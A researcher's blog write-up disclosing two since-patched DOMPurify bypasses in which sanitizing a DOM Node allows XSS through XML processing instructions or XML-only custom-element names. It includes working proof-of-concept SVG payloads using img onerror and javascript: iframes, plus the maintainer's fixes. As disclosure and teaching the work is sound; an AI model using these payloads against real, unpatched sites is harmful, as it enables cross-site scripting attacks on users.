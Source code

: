 +++
title = 'DOM Purify - untrusted Node bypass'
date = 2024-04-19T00:00:00+03:00
draft = false
+++

# Introduction

In this article, I aim to elucidate a deficiency in the implementation of DOMPurify that I recently uncovered. While it may not pertain to the most common use cases of this library, I found it to be a compelling discovery worthy of exploration.

# Purify ~~strings~~ nodes
In most scenarios, when utilizing the library, a string is passed to the sanitize function:
```javascript
DOMPurify.sanitize("<a href='https://x.com/slonser_'>slonser</a>")
// output: <a href="https://x.com/slonser_">slonser</a>
```
However, there exists a less common yet notable capability - passing an HTML Node as an argument to the function:
```javascript
let a_element = document.createElement("a")
a_element.href="https://x.com/slonser_"
DOMPurify.sanitize(a_element)
// output: <a href="https://x.com/slonser_">slonser</a>
```
I recently encountered such usage of the library. Let's consider a simplified example:
```javascript
        function pastUserFrame(user_link){
            let frame = document.createElement('iframe');
            frame.sandbox='allow-same-origin'
            frame.id='frame'
            frame.src=user_link
            document.body.appendChild(frame);
        }

        function validateOnClick(){
            let box = document.createElement('div')
            box.class='user-input'
            let button = frame.contentDocument.documentElement;
            box.appendChild(button)
            user_container.innerHTML = DOMPurify.sanitize(box)
        }
```
On this website, we have the capability to upload files and access them via a link. Unfortunately, all these links are subjected to a Content Security Policy (CSP) that prevents XSS exploitation. However, we have the ability to embed a tag from this document onto a page with a weaker CSP.

# You can't get XSS...
The truth is, the parsing process itself doesn't differ. If we look at the [code](https://github.com/cure53/DOMPurify/blob/fcb9dbd9a935d91e1a087b5ee721da1c6b008790/src/purify.js#L1425C7-L1439C6), the only distinction is that we don't need to first convert the string into a Node, because it already is one. So, the process cannot be circumvented unless we find a way to bypass DOMPurify's filtering in general cases.
```javascript
else if (dirty instanceof Node) {
      /* If dirty is a DOM element, append to an empty document to avoid
         elements being stripped by the parser */
      body = _initDocument('<!---->');
      importedNode = body.ownerDocument.importNode(dirty, true);
      if (importedNode.nodeType === 1 && importedNode.nodeName === 'BODY') {
        /* Node is already a body, use as is */
        body = importedNode;
      } else if (importedNode.nodeName === 'HTML') {
        body = importedNode;
      } else {
        // eslint-disable-next-line unicorn/prefer-dom-node-append
        body.appendChild(importedNode);
      }
    }
```
# Confusion...
Therefore, I decided to think differently. If I don't want to bypass the parser, what unexpected behavior can I trigger?
After some thought, I realized that **confusion between HTML and XML** contexts could help achieve XSS.


If I were to elaborate on my thought, the issue lies in the fact that an XML Node can be a child element of HTML Node, and I immediately assumed that this could create problems.


I tested by uploading a simple SVG file to the server and inserting its link into the function call.
*svg.svg*
```xml
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd"><svg id="slons" xmlns="http://www.w3.org/2000/svg"><circle></circle></svg>
```
After that, we can verify that the object was successfully transferred into the HTML tree.
![](./1.jpg)
# And what?
Yes, we can indeed insert an XML node into HTML, but that alone doesn't give us the opportunity to obtain XSS. What's next? We should look for differences between XML and HTML!

And at that moment, I remembered that in XML there exists a concept called **Processing Instructions**, whereas in HTML it is absent.

**Processing Instructions** in XML are special markup constructs used to convey instructions to applications that process XML documents. They are typically used to provide information about how the XML document should be processed or interpreted, rather than representing data or content within the document itself.

Processing Instructions are structured as follows:
```
<?target instructions?>
```
# Purify instructions?
I immediately decided to see how DOMPurify handles Processing Instructions.
```javascript
DOMPurify.sanitize("<?xml-stylesheet src='slonser' ?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
// output: <?xml-stylesheet src='slonser' ?>
```
So, Process Instructions are not removed, but why?
Let's check the source code:
```javascript
  const _createNodeIterator = function _createNodeIterator(root) {
    return createNodeIterator.call(root.ownerDocument || root, root,
    // eslint-disable-next-line no-bitwise
    NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT, null);
  };
```
`_createNodeIterator` is a function that traverses the DOM tree objects, used for sanitizing elements. As a matter of fact, the following filters are passed to it: `NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT`, but in order for the iterator to return Process instructions, the filter `NodeFilter.SHOW_PROCESSING_INSTRUCTION` must be enabled.

# Processing Instructions in HTML?
Let's pass the following file via link to the application we are examining:
```xml
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd"><svg id="slons" xmlns="http://www.w3.org/2000/svg"><?slonser href="C4T BuT S4D"?> </svg>
```
![](./2.jpg)
We will see that our instruction has turned into a comment. So, have we lost? 


No. If you look closely, you will notice that in XML, the closing delimiter will be `?>`, whereas the HTML parser in the browser will search for `>` until the end of the comment.
Now let's upload the next file:
```xml
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd"><svg id="slonser" xmlns="http://www.w3.org/2000/svg"><?xml-stylesheet > <img src=x onerror="alert('DOMPurify bypassed!!!')"> ?></svg>
```
And we will see a popup alert! while the structure of the DOM tree will look like this:
![](./3.jpg)

# First Fix
On the same day, I wrote to the project maintainer, and he almost instantly pushed the [fix](https://github.com/cure53/DOMPurify/commit/1b5963966c6a444f5ebc6f77e0c21a1d46a80164). (I think if there was a prize for the fastest fix, he would win it.):
``` javascript
-    NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT, null);
+    NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT | NodeFilter.SHOW_PROCESSING_INSTRUCTION, null);
```
As you can see now, NodeFilter also check Process Instructions, and now they are removed. But does this completely fix the problem at its core?
# Custom configuration
Yes, this does indeed solve the issue in the standard configuration, but what about when the user extends the standard configuration?
For example:
```javascript
DOMPurify.sanitize(box, {CUSTOM_ELEMENT_HANDLING: {
        tagNameCheck: /-foo-bar$/,
        allowCustomizedBuiltInElements: true,
    }
})
```
This configuration allows any custom tags ending with `-foo-bar`.


In such a configuration, the problem will still persist. But why?


The issue lies in the fact that XML and HTML have different requirements for tag names.
While the tag `<_slonser-foo-bar>` will be valid in XML, it won't be recognized as a tag in HTML.
So let's test this file with extended configuration:
```xml
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd"><_slonser-foo-bar data-slonser='&lt;iframe/src=javascript:alert()&gt;'></_slonser-foo-bar>
```
We will see the alert again, and the structure of the DOM tree will look like this:
![](./4.jpg)

# Second Fix
The next day, a fix was introduced for this issue. It involves checking the customElement name with a special regular expression:
```javascript
export const CUSTOM_ELEMENT = seal(/^[a-z][a-z\d]*(-[a-z\d]+)+$/i);
...
return tagName !== 'annotation-xml' && stringMatch(tagName, CUSTOM_ELEMENT);
```

# Conclusion
At the end of the article, I want to express gratitude to mario of [cure53](https://twitter.com/cure53berlin) for the quick resolution of the issue. I hope you enjoyed my article and learned a bit more about the differences between HTML and XML.